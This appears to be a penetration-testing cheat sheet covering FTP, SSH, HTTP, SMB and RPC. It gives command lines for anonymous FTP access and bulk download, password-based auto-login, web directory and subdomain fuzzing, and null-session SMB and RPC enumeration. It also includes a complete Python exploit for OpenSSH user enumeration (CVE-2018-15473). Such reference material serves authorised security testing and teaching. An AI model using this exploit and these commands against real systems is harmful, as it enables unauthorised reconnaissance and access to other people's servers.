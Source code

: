 ```yaml
---
icon: network-wired
---
```


# Network Services

## FTP

#### Anonymous login

{% code overflow="wrap" %}
```bash
ftp anonymous@<target>  # No password needed
```
{% endcode %}

#### Auto login

{% code overflow="wrap" %}
```bash
sshpass -p '<password>' ftp <user>@<target>
```
{% endcode %}

#### Browser URL

{% code overflow="wrap" %}
```bash
ftp://<user>:<password>@<target>
```
{% endcode %}

#### SSL

{% code overflow="wrap" %}
```bash
lftp <target> -e "set ssl:verify-certificate no; set ftp:ssl-force true"
```
{% endcode %}

#### Download all files

{% code overflow="wrap" %}
```bash
wget -r --user='<user>' --password='<password>' ftp://<target>
```
{% endcode %}

## SSH

#### Default credentials

Check for default credentials depending on the vendor:

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials)

#### Auto login

```
sshpass -p '<password>' ssh <user>@<target>
```

#### Private key login

{% code overflow="wrap" %}
```bash
ssh -i id_rsa <user>@<target>
```
{% endcode %}

#### Generate RSA keys

{% code overflow="wrap" %}
```bash
ssh-keygen -t rsa -f id_rsa
```
{% endcode %}

#### User enumeration - OpenSSH <7.7

Any version of OpenSSH up to 7.7 is vulnerable to user enumeration (CVE-2018-15473) if not patched. To exploit this vulnerability, we can use the following script:

<details>

<summary>ssh_user_enum.py</summary>

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/env python2

import argparse
import logging
import paramiko
import socket
import sys
from colorama import init, Fore
from threading import Thread, current_thread, enumerate as enumerate_threads

class SSHUserChecker:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port

        # Remove paramiko logging
        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        # Assign functions to respective handlers
        self._old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = self._service_accept
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = self._invalid_username

    def _service_accept(self, *args, **kwargs):
        paramiko.message.Message.add_boolean = self._add_boolean
        return self._old_service_accept(*args, **kwargs)

    def _add_boolean(self, *args, **kwargs):
        pass

    def _invalid_username(self, *args, **kwargs):
        raise InvalidUsername()

    def check_user(self, username):
        sock = socket.socket()
        sock.connect((self.target, self.port))
        transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            print (Fore.RED + '\n[!] Failed to negotiate SSH transport for user:' + username)
            return False

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
        except InvalidUsername:
            return False
        except paramiko.ssh_exception.AuthenticationException:
            return True
        return False

class InvalidUsername(Exception):
    pass

def check_user_wrapper(user_checker, username, valid_users, invalid_users):
    if user_checker.check_user(username):
        valid_users.append(username)
    else:
        invalid_users.append(username)

def main():
    parser = argparse.ArgumentParser(description='SSH User Enumeration')
    parser.add_argument('-u', '--username', help="Username to check for validity.")
    parser.add_argument('-w', '--wordlist', help="Wordlist file containing usernames to check.")
    parser.add_argument('-p', '--port', type=int, default=22, help="Set port of SSH service")
    parser.add_argument('target', help="IP address of the target system")

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()

    user_checker = SSHUserChecker(args.target, args.port)
    valid_users = []
    invalid_users = []

    if args.wordlist:
        with open(args.wordlist, 'r') as f:
            for line in f:
                username = line.strip()
                t = Thread(target=check_user_wrapper, args=(user_checker, username, valid_users, invalid_users))
                t.start()
    else:
        if not args.username:
            parser.error("[!] You must specify either a username (-u) or a wordlist (-w).")
        else:
            t = Thread(target=check_user_wrapper, args=(user_checker, args.username, valid_users, invalid_users))
            t.start()

    # Esperar a que todos los hilos terminen
    for t in enumerate_threads():
        if t != current_thread():
            t.join()

    if args.wordlist:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid users:")
            for user in valid_users:
                print(Fore.GREEN + "{}".format(user))
        else:
            print(Fore.RED + "\n[-] No valid users found.")
    else:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid user: {}".format(args.username))
        else:
            print(Fore.RED + "\n[-] Invalid user: {}".format(args.username))

if __name__ == "__main__":
    main()
```
{% endcode %}

</details>

## HTTP/HTTPS

#### Web Technologies

{% code overflow="wrap" %}
```bash
whatweb http://<target>
```
{% endcode %}

{% embed url="https://www.wappalyzer.com/apps/" %}
I also recommend using this browser extension.
{% endembed %}

#### File and Directory Enumeration

{% code overflow="wrap" %}
```bash
nmap -p80,443 --script http-enum <target>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -u http://<target>/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -w wordlist.txt http://<target>/FUZZ
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Good option for BurpSuite requests
ffuf -request request.txt -w wordlist.txt http://<target>/
```
{% endcode %}

#### Subdomain Enumeration

{% code overflow="wrap" %}
```bash
gobuster vhost -u http://<target>/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -H 'Host: FUZZ.<target>' -w wordlist.txt http://<target>/
```
{% endcode %}

#### User input

{% content-ref url="web-vulnerabilities/" %}
[web-vulnerabilities](web-vulnerabilities/)
{% endcontent-ref %}

## SMB

System enumeration with `enum4linux`

```bash
enum4linux -a [-u '<user>' -p '<password>'] <target>
```

#### Shares Enumeration

{% tabs %}
{% tab title="smbclient" %}
{% code overflow="wrap" %}
```bash
# null session
smbclient -N -L //<target>
# authenticated
smbclient -U '<user>[%<password>]' -L //<target>
# conect to a share
smbclient [-U '<user>[%<password>]'] //<target>/share
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code overflow="wrap" %}
```bash
# null session
smbmap -H <target>
# authenticated
smbmap -u '<user>' -p '<password>' -H <target>
# recursive/non-recursive listing
smbmap [-u '<user>' -p '<password>'] -R/-r share -H <target>
```
{% endcode %}
{% endtab %}

{% tab title="netexec" %}
{% code overflow="wrap" %}
```bash
# null session
nxc smb <target> -u '' -p '' --shares
# authenticated
nxc smb <target> -u '<user>' -p '<password>' --shares
# List share
nxc smb <target> [-u '<user>' -p '<password>'] --share share
```
{% endcode %}
{% endtab %}

{% tab title="nmap" %}
{% code overflow="wrap" %}
```bash
nmap -p 139,445 --script "smb-enum-shares" <target>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RPC

#### Automated Enumeration

{% code overflow="wrap" %}
```bash
rpcdump.py <target>
```
{% endcode %}

#### Manual Enumeration

{% code overflow="wrap" %}
```bash
# null session
rpcclient -U '' -N <target>
# authenticated
rpcclient -U '<user>%<password>' -N <target>
# commands
rpcclient -U '[<user>%<password>]' -N <target> -c 'command'
```
{% endcode %}


